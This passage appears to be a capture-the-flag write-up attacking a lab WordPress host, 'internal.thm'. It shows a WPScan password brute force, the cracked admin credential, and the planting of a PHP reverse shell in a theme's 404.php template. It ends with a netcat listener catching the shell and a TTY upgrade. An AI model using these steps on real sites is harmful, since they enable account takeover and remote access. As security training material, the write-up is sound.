 ~~~

[!] No WPVulnDB API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 50 daily requests by registering at https://wpvulndb.com/users/sign_up

[+] Finished: Thu Sep  3 14:36:20 2020
[+] Requests Done: 24
[+] Cached Requests: 34
[+] Data Sent: 5.936 KB
[+] Data Received: 181.104 KB
[+] Memory used: 172.43 MB
[+] Elapsed time: 00:00:03
~~~

According to WPScan, the only user is `admin`. Let's try to brute force the password, using the bruteforce feature of WPScan:

~~~
kali@kali:/data/The_Blob_Blog/files$ wpscan --url http://internal.thm/blog -U admin -P /usr/share/wordlists/rockyou.txt 

[REDACTED]

[!] Valid Combinations Found:
 | Username: admin, Password: my2boys

[REDACTED]
~~~

## Wordpress admin connection

Login (http://internal.thm/blog/wp-admin/) is successful with `admin:my2boys` and we now have the ability to modify the templates PHP source code. This will be convenient to write a reverse shell.

In the web interface, go to "Appearance > Theme Editor > 404.php" and replace the PHP code with a PHP reverse shell (e.g. http://pentestmonkey.net/tools/web-shells/php-reverse-shell).

Open a listener (`rlwrap nc -nlvp 4444`) and call the template (http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php).

## Reverse shell

Now have a reverse shell:

~~~
$ rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.8.50.72] from (UNKNOWN) [10.10.137.187] 51322
Linux internal 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 12:46:33 up 23 min,  0 users,  load average: 0.02, 0.20, 0.18
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ which python
/usr/bin/python
$ python -c "import pty;pty.spawn('/bin/bash')"
www-data@internal:/$ whoami
whoami
www-data
~~~
